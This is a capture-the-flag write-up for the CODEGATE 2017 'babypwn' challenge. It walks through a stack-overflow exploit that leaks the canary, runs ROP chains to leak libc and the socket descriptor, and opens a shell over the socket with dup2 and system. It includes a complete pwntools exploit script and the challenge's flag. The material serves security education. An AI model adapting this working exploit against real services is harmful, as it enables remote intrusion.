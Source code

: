 title: '[CODEGATE CTF 2017] babypwn 50'
author: Naetw
tags:
  - CODEGATE CTF 2017
  - pwn
  - ROP
  - stack overflow
categories:
  - write-ups
date: 2017-02-11 23:33:00
---

## Analyzing

32 bits ELF, Partial RELRO, with canary & NX, no PIE.

There is an obvious stack overflow vulnerablility, but this program uses `socket`, actually I haven't learned about socket programing so I won't talk too much about it, since all we need to do is dealing with file descriptor due to `fork`. 

Main operation is in `0x08048A71` function, and previous operation was setup of socket or sth. If you want to test this program locally:

* First run command `ncat -vc ./babypwn -kl 127.0.0.1 4000`
* Second, after looking into the src, we need to `nc localhost 4000` first then our socket program will be started up. After that, we can test our program by port 8181(`nc localhost 8181`).


The behavior of this program is simple:

```
===============================
1. Echo
2. Reverse Echo
3. Exit
===============================
Select menu > 1
Input Your Message : AAAA
AAAA

===============================
1. Echo
2. Reverse Echo
3. Exit
===============================
Select menu >
```

Just an echo server, at first glance, I thought there was a format string vulnerablility, but it wasn't. It is just an echo server. However, we can overflow the stack when it takes the input. And we will use this vulnerablility to leak canary to do later exploit.

## Exploit

**Overflow**

I use ida pro.

```c
char buf[40]; // [sp+24h] [bp-34h]@1
...
socket_recv(buf, 100) // socket_recv == 0x08048907
```

Here is an obvious overflow. Therefore, we can calculate offset for canary then make buffer on stack look like this:

```
0xff951f54:     0x41414141      0x41414141      0x41414141      0x41414141
0xff951f64:     0x41414141      0x41414141      0x41414141      0x41414141
0xff951f74:     0x41414141      0x41414141      0x4409b50a      0x00000000
```

`0x4409b50a` is our canary, since the first byte of canary would be '\x00', I use the newline to overwrite it so that we can leak the last 3 bytes. After we get the `0x4409b50a`, we just need to change newline back to null byte then we get the canary of this binary. So the real canary is `0x4409b500`.

With canary, we can bypass the stack guard. I will use it to do the first ROP. In the first ROP, I will leak the file descriptor for the socket and the libc function address in order to get the version of libc by using [libc database](http://libcdb.com).

First ROP payload:

```python
socket_send = 0x080488B1
pop1 = 0x08048589
sigemptyset_got = 0x0804B048
echo_select = 0x08048A71
fd_address = 0x0804B1B8
rop1 = [socket_send, pop1, sigemptyset_got, 
        socket_send, echo_select, fd_address]
payload = 'A'*40 +      # padding to canary
        p32(canary) +
        'A'*12 +        # padding to return address
        ''.join(map(p32, rop1))
```

After placing the ROP gadgets, we need to choose choice 3 to return, then it will return to our ROP gadgets.

I use the [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) to find the gadget `pop1` which pop once then ret. Since we need to do the second ROP(duplicate file descriptor and open the shell) after leaking information, I make the end of the first ROP return to the `0x08048A71`(function of main operation).


After finding out the version of libc, we can get the libc base. In the second ROP, I will use `dup2` to copy the fd of socket to stdin and stdout then open the shell.(Use dup2 so that we can get the interactive shell)

```python
pop2 = 0x08048B84
sh = base + next(libc.search('sh\x00'))
rop2 = [dup2, pop2, fd, 1,
        dup2, pop2, fd, 0,
        system, 0xdeadbeef, sh]
payload = 'A'*40 +      # padding to canary
        p32(canary) +
        'A'*12 +        # padding to return address
        ''.join(map(p32, rop2))
```

Again, choose the choice 3 to return then open the shell!

```python
#!/usr/bin/env python
# -*- coding: utf8 -*-
from pwn import * # pip install pwntools
import sys

ip = '127.0.0.1'
port = 8181
reip = '110.10.212.130'
report = 8888

r = remote(ip, port)
#r = remote(reip, report)

# Default address & libc setting
echo_select = 0x08048a71
socket_send = 0x080488b1
sigemptyset_got = 0x0804b048
fd = 0x0804b1b8
pop1 = 0x08048589
pop2 = 0x08048b84
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#libc = ELF('libc.so')

def echo(payload):
    r.recvuntil('>')
    r.sendline('1')
    r.recvuntil(':')
    r.send(payload)

# Leak canary
echo('A' * 40 + '\n')
r.recvline()
canary = r.recv(3)
canary = u32('\x00' + canary)
log.info(hex(canary))


# Leak libc function address and File Descripter
rop1 = [socket_send, pop1, sigemptyset_got, socket_send, echo_select, fd]
payload = 'A'*40 + p32(canary) +'A'*12 + ''.join(map(p32, rop1))
echo(payload + '\n')
r.recvuntil('>') 
r.sendline('3') # Use exit to ret to rop
r.recv()
sig = u32(r.recv(4))
listen = u32(r.recv(4))
atoi = u32(r.recv(4))
r.recv()
fd = ord(r.recv(1))
log.info('sigemptyset : ' + hex(sig) + '\n' + 
        'listen : ' + hex(listen) + '\n' +
        'atoi : ' + hex(atoi) + '\n' +
        'fd : ' + hex(fd))

''' Here I use http://libcdb.com '''
base = atoi - libc.symbols['atoi']
dup2 = base + libc.symbols['dup2']
system = 0x08048620
read = base + libc.symbols['read']
log.info('base : ' + hex(base))
sh = base + next(libc.search('sh\x00'))


# Duplicate fd and stdout & stdin(in order to use shell)
rop2 = [dup2, pop2, fd, 1,
        dup2, pop2, fd, 0,
        system, 0xdeadbeef, sh]
payload = 'A'*40 + p32(canary) + 'A'*12 + ''.join(map(p32, rop2))
echo(payload)

# Use exit to ret to rop2
sleep(0.1)
r.sendline('3')

r.interactive()
```

`FLAG{GoodJob~!Y0u@re_Very__G@@d!!!!!!^.^}`

